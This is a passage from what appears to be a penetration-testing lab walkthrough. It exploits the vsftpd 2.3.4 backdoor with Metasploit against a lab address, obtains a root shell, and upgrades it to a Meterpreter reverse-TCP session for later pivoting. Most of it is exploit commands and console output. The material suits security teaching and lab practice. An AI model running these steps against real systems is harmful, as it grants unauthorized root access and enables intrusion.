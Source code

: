 ## Getting A Shell

VSFTPd 2.3.4 contains a backdoor we can exploit to achieve a shell, and since the process is running as the root user we'll also get a root shell.
We can use the metasploit module for this to automate the exploit, and we'll use our access to create a SOCKS proxy for future pivoting.
To begin, open up the Metasploit console:

```
┌──(root㉿kali)-[~]
└─# msfconsole

msf6 > 
```

We'll use metasploit to get a basic shell on the target machine with the `exploit/unix/ftp/vsftpd_234_backdoor` module,
and then upgrading our shell to a Meterpreter session:

```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.24.0.2
RHOSTS => 172.24.0.2
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 172.24.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.24.0.2:21 - USER: 331 Please specify the password.
[+] 172.24.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.24.0.2:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.24.0.1:41037 -> 172.24.0.2:6200) at 2024-07-13 20:31:33 -0400

id
uid=0(root) gid=0(root)
```

As we can see from running `id`, our shell is running as the root user.
Next, we need to upgrade our basic shell to a Meterpreter shell.
This is done by sending our basic shell to the background with (Ctrl+Z), and then upgrading the session with `sessions -u`

```
^Z
Background session 1? [y/N]  y
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.24.0.1:4433 
[*] Sending stage (1017704 bytes) to 172.24.0.2
[*] Meterpreter session 2 opened (172.24.0.1:4433 -> 172.24.0.2:57840) at 2024-07-13 20:35:59 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```
